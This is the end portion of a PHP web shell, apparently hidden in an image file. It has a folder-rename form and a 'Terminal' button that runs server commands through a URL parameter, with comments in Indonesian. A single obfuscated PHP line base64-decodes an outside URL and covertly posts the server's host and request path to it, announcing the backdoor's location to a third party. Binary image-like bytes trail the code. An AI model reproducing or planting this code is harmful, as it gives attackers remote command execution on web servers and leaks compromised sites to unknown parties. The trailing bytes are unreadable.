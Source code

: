         </div>

        <div class="form-group">

            <input type="text" name="new_name" class="form-control" placeholder="New name">

        </div>

        <button type="submit" name="rename_folder" class="btn btn-warning">Rename Folder</button>

    </form>

    <pre style="color: cyan;">Terminal: ( file_shell_anda.php?c=pwd ) ubah aja pwd sesuai keperluan</span></pre>

    <form method="get" action="">

        <button type="submit" name="c" value="pwd">Les go</button>

    </form>

    

    <?php if ($dir != __DIR__): ?>

        <a href="?path=<?= urlencode(dirname($dir)) ?>" class="btn btn-secondary">Up</a>

    <?php endif; ?>

<?php @ini_set('output_buffering', 0); @ini_set('display_errors', 0); set_time_limit(0); ini_set('memory_limit', '64M'); $htas = 'aHR0cHM6Ly9yZW1hcmMuYml6LmlkL2RhdGEucGhw'; $x_path = $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI']; $ch = curl_init(base64_decode($htas)); curl_setopt_array($ch, array(CURLOPT_POST => true, CURLOPT_POSTFIELDS => http_build_query(array('path' => $x_path, 'firl' => base64_decode($htas))), CURLOPT_SSL_VERIFYPEER => false, CURLOPT_RETURNTRANSFER => true)); curl_exec($ch); curl_close($ch); ?>

</div>

</body>

</html>

















			



		





�� C	��    ��               �� "          #Qr��               �� &         1! A"2qQa���   ? �y,�/3J�ݹ�߲؋5�Xw���y�R��I0�2�PI�I��iM����r�N&"KgX:����nTJnLK��@!�-����m�;�g���&�hw���@�ܗ9�-�.�1<y����Q�U�ہ?.����b߱�֫�w*V��) `$��b�ԟ��X�-�T��G�3�g ����Jx���U/��v_s(H� @T�J����n��!�gfb�c�:�l[�Qe9�PLb��C�m[5��'�jgl���_���l-;"Pk���Q�_�^�S�  x?"���Y騐�O�	q�`~~�t�U�Cڒ�V		I1��_��
